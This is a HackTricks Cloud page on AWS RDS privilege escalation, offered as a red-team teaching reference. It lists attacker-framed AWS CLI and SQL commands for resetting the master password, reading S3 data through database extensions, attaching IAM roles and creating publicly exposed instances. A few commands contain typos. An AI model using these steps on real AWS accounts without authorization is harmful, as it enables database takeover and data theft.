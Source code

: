 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relational Database Service

For more information about RDS check:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

With that permission an attacker can **modify the password of the master user**, and the login inside the database:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
You will need to be able to **contact to the database** (they are usually only accessible from inside networks).
{% endhint %}

**Potential Impact:** Find sensitive info inside the databases.

### rds-db:connect

According to the [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) a user with this permission could connect to the DB instance.

### Abuse RDS Role IAM permissions

#### Postgresql (Aurora)

{% hint style="success" %}
If running **`SELECT datname FROM pg_database;`** you find a database called **`rdsadmin`** you know you are inside an **AWS postgresql database**.
{% endhint %}

First you can check if this database has been used to access any other AWS service. You could check this looking at the installed extensions:

```sql
SELECT * FROM pg_extension;
```

If you find something like **`aws_s3`** you can assume this database has **some kind of access over S3** (there are other extensions such as **`aws_ml`** and **`aws_lambda`**).

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can see there if the **cluster has any IAM Role attached** in the field **`AssociatedRoles`**. If any, you can assume that the database was **prepared to access other AWS services**. Based on the **name of the role** (or if you can get the **permissions** of the role) you could **guess** what extra access the database has.

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
   'test1234567890678', // Name of the bucket
   'data.csv',          // Name of the file
   'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

If you had **raw AWS credentials** you could also use them to access S3 data with:

```sql
SELECT aws_s3.table_import_from_s3(
   't', '', '(format csv)',
   :'s3_uri', 
   aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **doesn't need to change any parameter group variable** to be able to access S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Inside a mysql, if you run the query **`SELECT User, Host FROM mysql.user;`** and there is a user called **`rdsadmin`**, you can assume you are inside an **AWS RDS mysql db**.
{% endhint %}

Inside the mysql run **`show variables;`** and if the variables such as **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, have values, you can assume the database is prepared to access S3 data.

Also, if you have permissions to run **`aws rds describe-db-clusters`** you can check if the cluster has any **associated role**, which usually means access to AWS services).

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBCluster` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.\
Note that some DBs require additional configs such as Mysql, which needs to specify the role ARN in the aprameter groups also.

### `rds:CreateDBInstance`

Just with this permission an attacker could create a **new instance inside a cluster** that already exists and has an **IAM role** attached. He won't be able to change the master user password, but he might be able to expose the new database instance to the internet:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
    --db-instance-identifier mydbinstance2 \
    --db-instance-class db.t3.medium \
    --engine aurora-postgresql \
    --db-cluster-identifier database-1 \
    --db-security-groups "string" \
    --publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker with the permissions `rds:CreateDBInstance` and `iam:PassRole` can **create a new RDS instance with a specified role attached**. The attacker can then potentially **access sensitive data** or modify the data within the instance.

{% hint style="warning" %}
Some requirements of the role/instance-profile to attach (from [**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* The profile must exist in your account.
* The profile must have an IAM role that Amazon EC2 has permissions to assume.
* The instance profile name and the associated IAM role name must start with the prefix `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

An attacker with the permissions `rds:AddRoleToDBInstance` and `iam:PassRole` can **add a specified role to an existing RDS instance**. This could allow the attacker to **access sensitive data** or modify the data within the instance.

{% hint style="warning" %}
The DB instance must be outside of a cluster for this
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potential Impact**: Access to sensitive data or unauthorized modifications to the data in the RDS instance.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
